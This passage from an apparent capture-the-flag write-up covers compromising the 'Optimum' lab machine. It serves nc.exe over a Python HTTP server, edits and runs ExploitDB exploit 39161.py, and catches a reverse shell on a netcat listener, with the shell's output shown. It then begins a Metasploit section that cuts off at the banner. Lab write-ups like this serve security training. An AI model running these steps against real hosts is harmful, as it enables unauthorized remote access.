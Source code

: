 We can see `nc.exe` is in this directory. Since we're already in this directory, simply running the following command will start up a `HTTP Server` for us in this directory.

```
python -m SimpleHTTPServer 80
```

```
root@kali-[/usr/share/windows-binaries]python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Now we just need to run the exploit from the file we downloaded from **ExploitDB**. But before we do that there is one thing we need to change within the exploit to make it work: the `ip_addr` variable. So I go ahead and change `ip_addr = "192.168.44.128"` to `ip_addr = "10.10.14.36"`. This variable is used to help specify what IP to use connect to our HTTP Server. Looking at the usage we can see that we need to run `python 39161.py  <TARGET_IP_ADDR> <Target Port Number>`. So the target IP address is just going to be `10.10.10.8` and the port number is going to be `80` since this is where the service is being hosted. We also need to have our `Netcat` listener on port `443` listening so we get a callback.

```
nc -lvnp 443
```

```
python 39161.py 10.10.10.8 80
```

```
root@kali-[~]nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.8] 49207
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

And we get a low privileged shell! We could also get a shell through the `Metasploit Framework` which will be shown below:

## Low Privilege Shell on Target Host w/ Metasploit

```
root@kali-[~]msfconsole                                                                                               
                                                                                                                      
                                                                                                                      
     .~+P``````-o+:.                                      -o+:.
.+oooyysyyssyyssyddh++os-`````                        ```````````````          `
+++++++++++++++++++++++sydhyoyso/:.````...`...-///::+ohhyosyyosyy/+om++:ooo///o
++++///////~~~~///////++++++++++++++++ooyysoyysosso+++++++++++++++++++///oossosy
--.`                 .-.-...-////+++++++++++++++////////~~//////++++++++++++///
                                `...............`              `...-/////...`
                                                           
                                                           
                                  .::::::::::-.                     .::::::-
                                .hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo              
                                 :Nm-/NMMMMMMMMMMMMM$$NMMMMm&&MMMMMMMMMMMMMMy              
                                 .sm/`-yMMMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMMh`                                                                                                                                                               
                                  -Nd`  :MMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMh`
                                   -Nh` .yMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMm/
    `oo/``-hd:  ``                 .sNd  :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMm/                                     
```